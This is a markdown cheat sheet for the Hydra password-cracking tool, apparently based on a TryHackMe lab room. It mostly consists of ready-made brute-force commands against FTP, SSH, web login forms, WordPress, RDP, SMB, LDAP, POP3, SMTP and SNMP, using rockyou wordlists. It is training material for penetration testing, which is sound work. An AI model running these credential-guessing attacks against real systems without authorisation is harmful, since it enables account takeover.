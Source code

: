 ### Hydra User Guide
- All credit goes to: DarkStar7471 for his THM room located here : https://tryhackme.com/room/hydra

- Hydra is a brute force online password cracking tool, which can be used with a variety of protocols
- Protocols that hydra can work with:
Asterisk, AFP, Cisco AAA, Cisco auth, Cisco enable, CVS, Firebird, FTP,  HTTP-FORM-GET, HTTP-FORM-POST, HTTP-GET, HTTP-HEAD, HTTP-POST, HTTP-PROXY, HTTPS-FORM-GET, 
HTTPS-FORM-POST, HTTPS-GET, HTTPS-HEAD, HTTPS-POST, HTTP-Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MYSQL, NCP, NNTP, Oracle Listener, Oracle SID, Oracle, PC-Anywhere, PCNFS, 
POP3, POSTGRES, RDP, Rexec, Rlogin, Rsh, RTSP, SAP/R3, SIP, SMB, SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 and v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, 
VMware-Auth, VNC and XMPP.
- Official kali page:
- https://en.kali.tools/?p=220
- Download it (default on kali):
- https://github.com/vanhauser-thc/thc-hydra
#### Hydra Syntax
- The correct hydra syntax is depended upon the service you are going after.  For example if we want to hit ftp we should use:
#### FTP
````
hydra -l user -P passlist.txt ftp://10.10.10.10
````
#### SSH
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.10.10. -t 4 ssh
````
- `-l` is to specify the username 
- `P` is to specify a password list
- `-t` is to specify the number of threads to run hydra with.
- Note: Hydra recommends no more than 4 threads, however you can run it faster with `-t 16`.
#### POST Web Form
- Hydra can be used to brute force web logins as well.
- Step 1: Determine the request made to the form (POST/GET)
- Identify this in the network tab (developer tools), view the source code, or use Burp Suite.
- Syntax:
````
hydra -l <username> -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -vV
````
- `http-post-form` specifies the type of form
- `/login url` the login page URL i.e. `http://dont-brute-force-me.com/login.php`
- `:username` the form field name for the username
- `^USER^` this tells hydra to use the username you specified
- `password` the form field name for the password
- `^PASS^` the password list specified in the command 
- `Login` the failed login message
- `Login failed` is the login failure message that the form specifies 
- `F=inncorrect` the word that appears on the page if the login fails
- `-vV` specifies very verbose output 
- Hydra non default ssh port:
````
hydra -t 16 -l sam -P /usr/share/wordlists/rockyou.txt 10.10.80.187 ssh -s 4567 -vV
````
#### Example Syntax
````
#Hydra brute force against SNMP
hydra -P password-file.txt -v $ip snmp	
#Hydra FTP known user and rockyou password list
hydra -t 1 -l admin -P /usr/share/wordlists/rockyou.txt -vV $ip ftp	
#Hydra SSH using list of users and passwords
hydra -v -V -u -L users.txt -P passwords.txt -t 1 -u $ip ssh	
#Hydra SSH using a known password and a username list
hydra -v -V -u -L users.txt -p "" -t 1 -u $ip ssh
#Hydra SSH Against Known username on port 22
hydra $ip -s 22 ssh -l -P big_wordlist.txt	
#Hydra POP3 Brute Force
hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f $ip pop3 -V	
#Hydra SMTP Brute Force
hydra -P /usr/share/wordlistsnmap.lst $ip smtp -V	
#Hydra attack http get 401 login with a dictionary
hydra -L ./webapp.txt -P ./webapp.txt $ip http-get /admin	
#Hydra attack Windows Remote Desktop with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://$ip	
#Hydra brute force SMB user with rockyou
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt $ip smb	
#Hydra brute force a Wordpress admin
hydra -l admin -P ./passwordlist.txt $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'	 login
#SMB Brute Forcing
hydra -L usernames.txt -P passwords.txt $ip smb -V -f	
#LDAP Brute Forcing
hydra -L users.txt -P passwords.txt $ip ldap2 -V -f	
````
#### Additional Syntax Formats
````
sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.43 http-post-form "/department/login.php:username=admin&password=^PASS^:Invalid Password!"
sudo hydra -l molly -P /usr/share/wordlists/rockyou.txt 10.10.211.150 http-post-form "/login:username=molly&password=^PASS^:F=incorrect" -V
sudo hydra 10.0.0.1 http-post-form "/admin.php:target=auth&mode=login&user=^USER^&password=^PASS^:invalid" -P /usr/share/wordlists/rockyou.txt -l admin
hydra -l lazie -P /opt/rockyou.txt imap://10.10.251.142 -vV
````









